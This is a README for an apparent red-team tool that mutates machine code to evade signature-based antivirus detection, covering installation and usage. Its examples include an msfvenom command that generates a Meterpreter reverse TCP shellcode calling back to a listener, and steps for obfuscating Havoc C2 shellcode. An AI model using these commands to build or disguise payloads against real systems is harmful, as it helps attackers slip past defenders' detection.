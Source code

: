 # De-Optimizer
<div align="center">
  <img src=".github/img/banner.png">
  <br>
  <br>


  [![GitHub All Releases][release-img]][release]
  [![Build][workflow-img]][workflow]
  [![Issues][issues-img]][issues]
  [![Crates][crates-img]][crates]
  [![License: MIT][license-img]][license]
</div>

[crates]: https://crates.io/crates/deoptimizer
[crates-img]: https://img.shields.io/crates/v/deoptimizer
[release]: https://github.com/EgeBalci/deoptimizer/releases
[release-img]: https://img.shields.io/github/v/release/EgeBalci/deoptimizer
[downloads]: https://github.com/EgeBalci/deoptimizer/releases
[downloads-img]: https://img.shields.io/github/downloads/EgeBalci/deoptimizer/total?logo=github
[issues]: https://github.com/EgeBalci/deoptimizer/issues
[issues-img]: https://img.shields.io/github/issues/EgeBalci/deoptimizer?color=red
[license]: https://raw.githubusercontent.com/EgeBalci/deoptimizer/master/LICENSE
[license-img]: https://img.shields.io/github/license/EgeBalci/deoptimizer.svg
[google-cloud-shell]: https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/EgeBalci/deoptimizer&tutorial=README.md
[workflow-img]: https://github.com/EgeBalci/deoptimizer/actions/workflows/main.yml/badge.svg
[workflow]: https://github.com/EgeBalci/deoptimizer/actions/workflows/main.yml
[moneta-ref]: https://github.com/forrest-orr/moneta
[pe-sieve-ref]: https://github.com/hasherezade/pe-sieve
[insomnihack]: https://www.youtube.com/watch?v=Issvbst_89I
[havoc]: https://github.com/HavocFramework/Havoc


This tool is a machine code de-optimizer. By transforming/mutating the machine code instructions to their functional equivalents it makes possible to bypass pattern-based detection mechanisms used by security products.

## Why?
Bypassing security products is a very important part of many offensive security engagements. The majority of the current AV evasion techniques used in various different evasion tools, such as packers, shellcode encoders, and obfuscators, are dependent on the use of self-modifying code running on RWE memory regions. Considering the current state of security products, such evasion attempts are easily detected by memory analysis tools such as [Moneta](https://github.com/forrest-orr/moneta) and [Pe-sieve](https://github.com/hasherezade/pe-sieve). This project introduces a new approach to code obfuscation with the use of machine code de-optimization. It uses certain mathematical approaches, such as arithmetic partitioning, logical inverse, polynomial transformation, and logical partitioning, for transforming/mutating the instructions of the target binary without creating any recognizable patterns. The tool is capable of transforming the instructions of a given binary up to ~95% by using the mentioned de-optimization tricks.

**Watch the presentation for more...**
- [Why So Optimized? - Insomni'hack 2024](https://youtu.be/Issvbst_89I?feature=shared)

## Installation

**Download the pre-built release binaries [HERE](https://github.com/EgeBalci/deoptimizer/releases).**

[![Open in Cloud Shell](.github/img/cloud-shell.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/EgeBalci/deoptimizer&tutorial=README.md)

***From Source***
```
cargo install deoptimizer
```

***Docker Install***

[![Docker](http://dockeri.co/image/egee/deoptimizer)](https://hub.docker.com/r/egee/deoptimizer/)

```bash
docker run -it egee/deoptimizer -h
```

## Usage

> [!WARNING]  
> This project is still in the development stage! The available transform gadgets, functions, and command line parameter names may be adjusted, backward compatibility is not guaranteed.

<div align="center">
  <img src=".github/img/quick-demo.gif">
</div>

---

```
Usage: Deoptimizer [OPTIONS]

Options:
  -a, --arch <ARCH>                     Target architecture (x86/arm) [default: x86]
  -f, --file <FILE>                     Target binary file name [default: ]
  -o, --outfile <OUTFILE>               Output file name [default: ]
  -s, --source <SOURCE>                 Source assembly file [default: ]
      --syntax <SYNTAX>                 Assembler formatter syntax (nasm/masm/intel/gas) [default: keystone]
  -b, --bitness <BITNESS>               Bitness of the binary file (16/32/64) [default: 64]
  -A, --addr <ADDR>                     Start address in hexadecimal form [default: 0x0000000000000000]
      --skip-offsets <SKIP_OFFSETS>...  File offset range for skipping deoptimization (eg: 0-10 for skipping first ten bytes)
      --no-trace                        Do not perform conntrol flow tracing on the given binary
  -c, --cycle <CYCLE>                   Total number of deoptimization cycles [default: 1]
  -F, --freq <FREQ>                     Deoptimization frequency [default: 0.5]
      --transforms <TRANSFORMS>         Allowed transform routines (ap/li/lp/om/rs) [default: ap,li,lp,om,rs]
      --allow-invalid                   Allow processing of invalid instructions
  -v, --verbose                         Verbose output mode
      --debug                           Debug output mode
  -h, --help                            Print help
  -V, --version                         Print version
```

#### Examples

- Generate and de-optimize a 64 bit Metasploit reverse TCP shellcode
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -o shellcode 
deoptimizer -b 64 -F 1 -f /tmp/shellcode
```

> [!WARNING]  
> Some shellcodes may contain strings and other static data values that must be skipped! By default, the deoptimizer will perform simple control flow tracing for detecting code paths and skipping possible data offsets automatically. Automatic tracing successfully works for smaller shellcodes. (tested with all Metasploit `windows/*/meterpreter/*` shellcodes) However, due to the complex nature of this task, tracing may end up skipping too much or completely failing for some large/complex shellcodes.

In such cases, disabling the tracer with `--no-trace` parameter is suggested. Without the tracer, the string offsets need to be specified manually using the `--skip-offsets` parameter.

The shellcodes produced by the [Havoc Framework](https://github.com/HavocFramework/Havoc) are good examples of such use cases. Havoc Framework produces large shellcodes that contain a full DLL file and a PE loader. The following example shows how to skip the DLL potion of the Havoc shellcode. 

```bash
deoptimizer -F 1 --no-trace --skip-offsets 0x46F-0x18BFF -f havoc_demon.x64.bin -o shellcode
# These offsets seems to be stable for all havoc shellcodes for now. But verification of the offsets is recommended. 
```

## Currently Supported Architectures

- ✅ `Supported`
- 🚧 `In progress`
- ❌ `Unsupported`

|  **Architecture** | **32** | **64** |
|:-----------------:|:------:|:------:|
|      **x86**      |   ✅   |   ✅   |
|      **ARM**      |   ❌   |   🚧   |
|     **RISCV**     |   ❌   |   🚧   |

## TO DO 
- [ ] PE file support.
- [ ] ELF file support
- [ ] Mach-O file support.
- [ ] ARM architecture support.
- [ ] RISC5 architecture support.
